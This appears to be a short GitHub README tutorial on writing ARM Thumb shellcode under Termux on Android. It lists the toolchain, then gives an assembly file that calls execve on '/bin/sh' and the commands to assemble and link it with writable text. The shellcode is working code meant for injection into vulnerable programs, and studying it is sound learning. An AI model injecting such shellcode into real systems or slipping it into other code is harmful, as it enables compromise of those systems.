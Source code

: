 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~$ ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.

~ $> ld -N shell.o -o shell

```

